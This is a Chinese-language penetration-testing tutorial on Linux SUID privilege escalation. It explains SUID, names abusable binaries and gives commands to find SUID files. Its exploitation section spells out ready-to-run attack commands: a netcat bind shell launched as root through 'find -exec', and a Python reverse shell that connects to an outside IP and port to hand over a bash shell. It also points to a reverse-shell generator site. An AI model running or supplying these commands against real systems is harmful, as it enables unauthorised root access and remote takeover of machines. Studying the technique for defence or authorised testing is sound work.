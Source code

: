 ## **SUID**
SUID是一种特殊的文件权限，它允许用户在执行某个程序时，以该程序所有者的身份运行程序。通常情况下，这种权限被赋予给需要高权限执行的程序，例如系统管理工具或某些命令行实用程序。当这些程序设置了SUID位时，即使普通用户也可以执行它们并获得程序所有者的权限(通常是root用户)。

如：由于管理员经常查找文件，为了这个文件查找的结果更多，赋予了find查找程序suid的root权限，
即root用户执行了 chmod +s /usr/bin/find 或 chmod u+s /usr/bin/find。
而find可以加-exec参数进行其他命令的组合，那么-exec后面的命令就是root权限执行。

## **配置安全：SUID提权**
SUID提权是一种在Linux系统中利用SUID（Set User ID）权限进行权限提升的技术。
在安全领域，SUID提权通常被视为一种潜在的安全风险。攻击者如果能够利用SUID程序中的漏洞或者通过其他方式滥用SUID程序的权限，就可能执行原本只有高权限用户才能执行的操作，比如修改系统文件、访问敏感数据或者完全控制系统。因此，SUID提权是安全研究者和渗透测试人员在评估系统安全性时关注的重点之一。

以下是一些常见的SUID提权方法和工具：
1. **Nmap**: Nmap是一个网络扫描工具，如果它具有SUID权限，攻击者可以通过其交互模式执行任意命令。
2. **Vim**: Vim是一个文本编辑器，具有SUID权限的Vim可以被用来执行命令，从而获取更高权限。
3. **Find**: Find命令用于查找文件，如果具有SUID权限，可以通过其-exec选项执行任意命令。
4. **Less和More**: 这两个文本查看器在具有SUID权限时，可以通过输入`!`后跟shell命令来执行shell命令。
5. **Nano**: 类似于Vim，具有SUID权限的Nano编辑器可以用来执行命令。
6. **Cp和Mv**: 这两个文件操作命令在具有SUID权限时，可以用来覆盖敏感文件，如`/etc/passwd`，从而可能实现提权。
7. 更多存在suid提权漏洞的程序(有-exec参数)<https://gtfobins.github.io/> 搜suid

## **检测SUID**
为了检测系统上的SUID文件，可以使用如下命令：
```
find / -user root -perm -4000 -print 2>/dev/null
```
或者
```
find / -perm -u=s -type f 2>/dev/null
```
这个命令会搜索整个文件系统，查找属于root用户且设置了SUID权限的文件。
查找列出的命令，和实际存在SUID提权的命令比对，如有find，则find命令存在suid，可以使用find操作root权限，如执行whoami。
>find存在SUID是由于管理员经常查找文件，为了这个文件查找的结果更多，赋予了find查找程序suid的root权限
而且find可以加-exec参数进行其他命令的组合，那么-exec后面的命令就是root权限执行。
```
touch xiaodi
find xiaodi -exec whoami \;
即可返回root
```


## **提权利用**
利用NC正向
```
需要目标机上的netcat或nc支持-e参数
find xiaodi -exec netcat -lvp 5555 -e /bin/sh \;

攻击机连接：
netcat xx.xx.xx.xx:5555
```
利用Python反弹
```
find xiaodi -exec python -c  'import 
socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(('47.94.0.0',7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);
p=subprocess.call(['/bin/bash','-i']);' \;

攻击机监听接收：
nc -lvp 7777
```
更多反弹命令生成：http://forum.ywhack.com/shell.php

^
## **防御**
为了防止SUID提权的风险，系统管理员需要定期检查SUID程序的安全性，确保它们没有已知的漏洞，并且只对确实需要的程序赋予SUID权限。同时，也应该限制普通用户能够访问的SUID程序，减少潜在的攻击面。